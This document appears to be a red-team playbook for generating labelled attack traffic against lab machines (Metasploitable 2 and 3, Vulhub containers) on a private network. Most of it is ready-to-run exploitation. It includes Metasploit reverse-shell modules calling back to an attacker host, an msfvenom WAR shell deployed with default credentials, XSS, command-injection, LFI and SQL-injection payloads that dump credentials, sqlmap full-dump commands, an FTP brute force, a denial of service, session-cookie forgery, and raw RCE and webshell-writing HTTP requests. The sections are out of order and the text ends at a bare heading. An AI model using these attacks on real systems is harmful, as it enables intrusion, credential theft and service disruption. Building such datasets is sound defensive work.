# Attacker 5 — Attack Instructions

**Attacker ID:** `attacker_5`  
**Source IP:** `<src-ip>`

---

## Metasploitable 2

**Target IP:** `192.168.77.225`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.225 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.225
```

```bash
attacklog end --status ran
```

---

note: More attacks will be added before the infrastructure is ready.

### 1. Unix R-Services Reverse Shell

**Name:** `ms2-rservices-revshell`  
**Target port:** 513 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-rservices-portscan --dst-ip 192.168.77.225 --dst-port 513
```

```bash
nmap -p 513 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-rservices-revshell --dst-ip 192.168.77.225 --dst-port 513
```

```bash
rlogin -l root 192.168.77.225
```

```bash
attacklog end --status <success|ran|error>
```

---

### 2. UnrealIRCD Backdoor Reverse Shell

**Name:** `ms2-unrealircd-revshell`  
**Target port:** 6667 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-unrealircd-portscan --dst-ip 192.168.77.225 --dst-port 6667
```

```bash
nmap -p 6667 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-unrealircd-revshell --dst-ip 192.168.77.225 --dst-port 6667
```

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.77.225
set RPORT 6667
set LHOST <your_ip>
set LPORT 4444
set payload cmd/unix/reverse
exploit
```

```bash
attacklog end --status <success|ran|error>
```

---

### 3. DVWA XSS Reflected

**Name:** `ms2-dvwa-xss-reflected`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-xss-reflected-portscan --dst-ip 192.168.77.225 --dst-port 80
```

```bash
nmap -p 80 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-xss-reflected --dst-ip 192.168.77.225 --dst-port 80
```

Navigate to the DVWA XSS (Reflected) page and inject into the input field:

**Low / Medium:**

```
<svg onload=alert('Example')>
```

**High:** same payload, same bypass.

```bash
attacklog end --status <success|ran|error>
```

---

### 4. DVWA XSS Stored

**Name:** `ms2-dvwa-xss-stored`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-xss-stored-portscan --dst-ip 192.168.77.225 --dst-port 80
```

```bash
nmap -p 80 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-xss-stored --dst-ip 192.168.77.225 --dst-port 80
```

Navigate to the DVWA XSS (Stored) page.

**Low** - inject into message field:

```
<script>alert('example')</script>
```

**Medium** - expand the `Name` field's maxlength in browser DevTools, then inject into name:

```

```

**High:** not bypassable.

```bash
attacklog end --status <success|ran|error>
```

---

### 5. DVWA Command Injection

**Name:** `ms2-dvwa-cmdinject`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-cmdinject-portscan --dst-ip 192.168.77.225 --dst-port 80
```

```bash
nmap -p 80 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-cmdinject --dst-ip 192.168.77.225 --dst-port 80
```

Navigate to the DVWA Command Execution page.

**Low:**

```
127.0.0.1 && whoami
```

**Medium:**

```
127.0.0.1 | whoami
```

```bash
attacklog end --status <success|ran|error>
```

---

### 6. DVWA File Inclusion (LFI)

**Name:** `ms2-dvwa-lfi`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-lfi-portscan --dst-ip 192.168.77.225 --dst-port 80
```

```bash
nmap -p 80 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-lfi --dst-ip 192.168.77.225 --dst-port 80
```

**Low:**

```
http://192.168.77.225/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

```bash
attacklog end --status <success|ran|error>
```

---

### 7. DVWA SQL Injection (Manual)

**Name:** `ms2-dvwa-sqli-manual`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-sqli-manual-portscan --dst-ip 192.168.77.225 --dst-port 80
```

```bash
nmap -p 80 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-sqli-manual --dst-ip 192.168.77.225 --dst-port 80
```

Navigate to the DVWA SQL Injection page.

**Low:**

```
1' or 1 = '1
```

Dump column names:

```
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
```

Dump credentials:

```
' UNION SELECT user, password FROM users#
```

**Medium:**

```
1 UNION SELECT user, password FROM users#
```

```bash
attacklog end --status <success|ran|error>
```

---

### 8. Mutillidae SQLMap

**Name:** `ms2-mutillidae-sqlmap`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-mutillidae-sqlmap-portscan --dst-ip 192.168.77.225 --dst-port 80
```

```bash
nmap -p 80 192.168.77.225
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-mutillidae-sqlmap --dst-ip 192.168.77.225 --dst-port 80
```

Run one or more of the following. Pick based on what traffic pattern is needed:

**Basic scan:**

```bash
sqlmap -u "http://192.168.77.225/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username,password --batch
```

**Boolean-based blind:**

```bash
sqlmap -u "http://192.168.77.225/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=B --batch --level=3
```

**Time-based blind:**

```bash
sqlmap -u "http://192.168.77.225/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=T --batch --level=3
```

**Error-based:**

```bash
sqlmap -u "http://192.168.77.225/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=E --batch --level=3
```

**UNION-based:**

```bash
sqlmap -u "http://192.168.77.225/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=U --batch --level=3 --union-cols=3-6
```

**Full dump (aggressive):**

```bash
sqlmap -u "http://192.168.77.225/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --batch --dbs --tables --dump --level=5 --risk=3
```

```bash
attacklog end --status <success|ran|error>
```

---


## Metasploitable 3

**Target IP:** `192.168.77.246`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.246 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.246
```

```bash
attacklog end --status ran
```

---

note: More attacks will be added before the infrastructure is ready.
### 9. GlassFish Reverse Shell

**Name:** `ms3-glassfish-revshell`  
**Target port:** 4848 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-glassfish-portscan --dst-ip 192.168.77.246 --dst-port 4848
```

```bash
nmap -p 4848 192.168.77.246
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-glassfish-revshell --dst-ip 192.168.77.246 --dst-port 4848
```

Generate the payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f war -o shell.war
```

Start a listener:

```
use exploit/multi/handler
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```

Upload via the GlassFish admin panel at `http://192.168.77.246:4848` (credentials: `admin / sploit`):

1. Left panel -> **Applications** -> **Deploy**
2. Browse and select `shell.war` -> **OK**

Trigger the shell:

```bash
curl http://192.168.77.246:8080/shell/
```

```bash
attacklog end --status <success|ran|error>
```

---

### 10. Jenkins Reverse Shell

**Name:** `ms3-jenkins-revshell`  
**Target port:** 8484 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-jenkins-portscan --dst-ip 192.168.77.246 --dst-port 8484
```

```bash
nmap -p 8484 192.168.77.246
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-jenkins-revshell --dst-ip 192.168.77.246 --dst-port 8484
```

```
use exploit/multi/http/jenkins_script_console
set RHOSTS 192.168.77.246
set RPORT 8484
set LHOST <your_ip>
set LPORT 4447
set PAYLOAD windows/meterpreter/reverse_tcp
set TARGETURI /script
exploit
```

```bash
attacklog end --status <success|ran|error>
```

---

### 11. IIS HTTP Denial of Service (CVE-2015-1635)

**Name:** `ms3-iis-http-dos`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-iis-http-dos-portscan --dst-ip 192.168.77.246 --dst-port 80
```

```bash
nmap -p 80 192.168.77.246
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-iis-http-dos --dst-ip 192.168.77.246 --dst-port 80
```

```
use auxiliary/dos/http/ms15_034_ulonglongadd
set RHOSTS 192.168.77.246
set RPORT 80
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 12. IIS FTP Wordlist Login Attack

**Name:** `ms3-iis-ftp-wordlist`  
**Target port:** 21 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-iis-ftp-wordlist-portscan --dst-ip 192.168.77.246 --dst-port 21
```

```bash
nmap -p 21 192.168.77.246
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-iis-ftp-wordlist --dst-ip 192.168.77.246 --dst-port 21
```

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.77.246
set RPORT 21
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 13. ElasticSearch Reverse Shell (CVE-2014-3120)

**Name:** `ms3-elasticsearch-revshell`  
**Target port:** 9200 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-elasticsearch-portscan --dst-ip 192.168.77.246 --dst-port 9200
```

```bash
nmap -p 9200 192.168.77.246
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-elasticsearch-revshell --dst-ip 192.168.77.246 --dst-port 9200
```

```
use exploit/multi/elasticsearch/script_mvel_rce
set RHOSTS 192.168.77.246
set RPORT 9200
set LHOST <your_ip>
set LPORT 4444
set PAYLOAD java/meterpreter/reverse_tcp
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 14. SNMP Enumeration

**Name:** `ms3-snmp-enum`  
**Target port:** 161 / UDP

**Port Scan:**

```bash
attacklog start --name ms3-snmp-portscan --dst-ip 192.168.77.246 --dst-port 161 --protocol udp
```

```bash
nmap -sU -p 161 192.168.77.246
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-snmp-enum --dst-ip 192.168.77.246 --dst-port 161 --protocol udp
```

```
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 192.168.77.246
set RPORT 161
set COMMUNITY public
set VERSION 1
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 15. JMX Reverse Shell (CVE-2015-2342)

**Name:** `ms3-jmx-revshell`  
**Target port:** 1617 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-jmx-portscan --dst-ip 192.168.77.246 --dst-port 1617
```

```bash
nmap -p 1617 192.168.77.246
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-jmx-revshell --dst-ip 192.168.77.246 --dst-port 1617
```

```
use exploit/multi/misc/java_jmx_server
set RHOSTS 192.168.77.246
set RPORT 1617
set LHOST <your_ip>
set LPORT 4444
set payload java/meterpreter/reverse_tcp
run
```

```bash
attacklog end --status <success|ran|error>
```

---


## VulnHub

Note: all of this attacks are from https://github.com/vulhub/vulhub

### VM: CSAD-Vulhub-2-2

**Target IP:** `192.168.77.252`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.252 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.252
```

```bash
attacklog end --status ran
```

---

### 22. Apache Airflow Authentication Bypass (CVE-2020-17526)

**Name:** `vulnhub-airflow-cve-2020-17526`  
**Target port:** 8080 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-airflow-cve-2020-17526-portscan --dst-ip 192.168.77.252 --dst-port 8080
```

```bash
nmap -p 8080 192.168.77.252
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-airflow-cve-2020-17526 --dst-ip 192.168.77.252 --dst-port 8080
```

In Apache Airflow prior to 1.10.13, a default session secret key is used, which allows an attacker to forge session cookies and impersonate arbitrary users when authentication is enabled.

#### Environment Setup

```bash
#Initialize the database
docker compose run airflow-init

#Start service
docker compose up -d
```

After the server starts, browse `http://192.168.77.252:8080` to see the login page.

#### Exploit

Get a session string from the login page cookie:

```
curl -v http://192.168.77.252:8080/admin/airflow/login
```



Use [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to crack the session key:

```
flask-unsign -u -c [session from Cookie]
```



Use the cracked key (`temporary_key`) to generate a new session with `user_id` = `1`:

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```



Use the generated session to log in as admin:



```bash
attacklog end --status <success|ran|error>
```

#### Notes from Jovan

###### in venv:
`pip3 install flask-unsign[wordlist]`

After generated session cookie, insert it in: inspect -> application -> Cookies -> session, then reload and you should be logged in as an admin

---

---

### 20. Apache ActiveMQ Jolokia Authenticated Remote Code Execution (CVE-2022-41678)

**Name:** `vulnhub-activemq-cve-2022-41678`  
**Target port:** 8161 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-activemq-cve-2022-41678-portscan --dst-ip 192.168.77.252 --dst-port 8161
```

```bash
nmap -p 8161 192.168.77.252
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-activemq-cve-2022-41678 --dst-ip 192.168.77.252 --dst-port 8161
```

Apache ActiveMQ prior to 5.16.5 and 5.17.3 contains an authenticated RCE vulnerability in the Jolokia `/api/jolokia` endpoint.

#### Environment Setup

```
docker compose up -d
```

After the server starts, open `http://192.168.77.252:8161/` and log in with `admin` / `admin`.

#### Exploit

List all available MBeans via `/api/jolokia/list`:

```
GET /api/jolokia/list HTTP/1.1
Host: 192.168.77.252:8161
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://localhost
```



There are 2 exploitable MBeans that can perform RCE.

**Method #1** — using `org.apache.logging.log4j.core.jmx.LoggerContextAdminMBean` to write a webshell (requires ActiveMQ 5.17.0+):

```
python poc.py -u admin -p admin http://192.168.77.252:8161
```



Webshell is written to `/admin/shell.jsp` successfully:



**Method #2** — using `jdk.management.jfr.FlightRecorderMXBean` to write a webshell (requires OpenJDK 11+):

```
python poc.py -u admin -p admin --exploit jfr http://192.168.77.252:8161
```



Webshell is written to `/admin/shelljfr.jsp` successfully:



```bash
attacklog end --status <success|ran|error>
```

#### Notes from Jovan

###### Request:
```
GET /api/jolokia/list HTTP/1.1
Host: localhost:8161
Pragma: no-cache
Cache-Control: no-cache
Authorization: Basic YWRtaW46YWRtaW4=
sec-ch-ua: "Not-A.Brand";v="24", "Chromium";v="146"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Origin: http://localhost
```
command for method 1: `python3 poc.py -u admin -p admin http://localhost:8161`
command for method 2:  ```
```
python3 poc.py -u admin -p admin --exploit jfr http://localhost:8161
```

---

---

### 23. AJ-Report Authentication Bypass and Remote Code Execution (CNVD-2024-15077)

**Name:** `vulnhub-aj-report-cnvd-2024-15077`  
**Target port:** 9095 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-aj-report-cnvd-2024-15077-portscan --dst-ip 192.168.77.252 --dst-port 9095
```

```bash
nmap -p 9095 192.168.77.252
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-aj-report-cnvd-2024-15077 --dst-ip 192.168.77.252 --dst-port 9095
```

AJ-Report v1.4.0 and earlier contains an authentication bypass issue allowing an attacker to perform arbitrary code execution.

#### Environment Setup

```
docker compose up -d
```

After the server starts, access the login page at `http://192.168.77.252:9095`.

#### Exploit

Send the following request to execute arbitrary code:

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 192.168.77.252:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 339

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```



```bash
attacklog end --status <success|ran|error>
```

---

---

### VM: CSAD-Vulhub-3-2

**Target IP:** `192.168.77.220`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.220 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.220
```

```bash
attacklog end --status ran
```

---

### 18. Apache Airflow Celery Broker Remote Command Execution (CVE-2020-11981)

**Name:** `vulnhub-airflow-cve-2020-11981`  
**Target port:** 6379 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-airflow-cve-2020-11981-portscan --dst-ip 192.168.77.220 --dst-port 6379
```

```bash
nmap -p 6379 192.168.77.220
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-airflow-cve-2020-11981 --dst-ip 192.168.77.220 --dst-port 6379
```

In Apache Airflow prior to 1.10.10, if the Redis broker has been controlled by an attacker, the attacker can execute arbitrary commands in the worker process.

#### Environment Setup

```bash
#Initialize the database
docker compose run airflow-init

#Start service
docker compose up -d
```

#### Exploit

The Redis port 6379 is exposed on the network. Through Redis, add the evil task `airflow.executors.celery_executor.execute_command` to the queue to execute arbitrary commands.

Use the exploit script to run `touch /tmp/airflow_celery_success`:

```
pip install redis
python exploit_airflow_celery.py 192.168.77.220
```

Check the logs:

```bash
docker compose logs airflow-worker
```



Verify the command was executed:

```
docker compose exec airflow-worker ls -l /tmp
```



```bash
attacklog end --status <success|ran|error>
```

---

---

### 19. 1Panel Control Panel PostAuth SQL Injection (CVE-2024-39907)

**Name:** `vulnhub-1panel-cve-2024-39907`  
**Target port:** 10086 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-1panel-cve-2024-39907-portscan --dst-ip 192.168.77.220 --dst-port 10086
```

```bash
nmap -p 10086 192.168.77.220
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-1panel-cve-2024-39907 --dst-ip 192.168.77.220 --dst-port 10086
```

CVE-2024-39907 is a collection of SQL injection vulnerabilities in the 1Panel control panel. Insufficient filtering allows attackers to achieve arbitrary file writes and ultimately remote code execution. Affects 1Panel v1.10.9-lts and earlier, patched in v1.10.12-lts.

#### Environment Setup

```
docker compose up -d
```

After the server starts, access `http://192.168.77.220:10086/entrance` with credentials `1panel` / `1panel_password`.

#### Vulnerability Reproduction

After logging in, send the following malicious POST request. The `orderBy` parameter in `/api/v1/hosts/command/search` lacks proper input validation, allowing SQL injection:

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: 192.168.77.220:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```



```bash
attacklog end --status <success|ran|error>
```

---

---

### 16. Flask (Jinja2) Server-Side Template Injection

